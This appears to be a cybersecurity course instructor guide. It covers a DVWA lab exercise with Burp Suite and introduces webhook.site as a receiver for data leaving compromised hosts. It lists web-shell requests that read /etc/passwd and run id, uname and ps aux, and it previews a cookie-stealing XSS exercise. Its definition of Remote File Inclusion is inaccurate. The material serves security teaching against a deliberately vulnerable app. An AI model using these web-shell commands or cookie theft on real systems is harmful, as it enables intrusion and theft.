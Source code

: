 **Solutions**:
- To dump `/etc/passwd`: `GET /hackable/webshell.php?cmd=cat%20/etc/passwd`
- For user info: `id`: `GET /hackable/webshell.php?cmd=id`
- For OS info: `uname`: `GET /hackable/webshell.php?cmd=uname`
- For process info: `ps aux`: `GET /hackable/webshell.php?cmd=ps%20aux`

As a **bonus**, repeat the above exercise with Burp Intruder instead of Repeater.
  
- **Solution**:
    - Send the request from Repeater to Intruder by pressing `Ctrl + I`. 
    - Add a position such that your request line looks like: `GET /hackable/webshell.php?cmd=$COMMAND$`. 
    - Add the commands you ran above as payloads in Intruder, and click **Start Attack**.


Point out that in this case, none of the commands will work. 
- The lack of existing network utilities means you won't be able to leverage them to break in. 
- Therefore, you will have to find another way to compromise it.


### BREAK (0:20)


### 09. Direct Instruction: Receiving Requests with webhook (0:15)

File uploads are popular amongst hackers because they are able to smuggle malicious scripts onto the server. 

- If the attacker can then find a way to execute those scripts they can take advantage of your system. 
- **Remote File Inclusion (RFI)** is used to send data from the compromised host back to the attacker.”

- This requires you to have a server receiving requests from the victim.

In practice, you would set up your own HTTP server. But, for testing and learning purposes, we'll use a tool called Webhook, which provides a ready-made server that listens for requests.

- Navigate to: <https://webhook.site>.

- Click **Open in New Tab**, next to the unique URL provided midway down the page.

- Close the new tab, and point out that Webhook has logged the request the browser sent.

Explain that you can use this log to extract information from HTTP requests sent by compromised users.

Let students know they'll get their feet wet by sending requests from malicious files uploaded via RFI in the next exercise, before constructing and delivering a cookie-stealing XSS to their classmates (!)

- Take a moment to address remaining questions before proceeding.

### 10. Guided Practice: First Steps with Webhook (0:15)

Explain the following to students:
- In this activity, you will exploit an RFI vulnerability using webhooks and BurpSuite.
- You will need to open two web browsers for this activity. In one of them, navigate to `http://dvwa.com`. in the other, navigate to your personal Webhook URL.
- You will also create a malicious file that you will upload to DVWA.
 
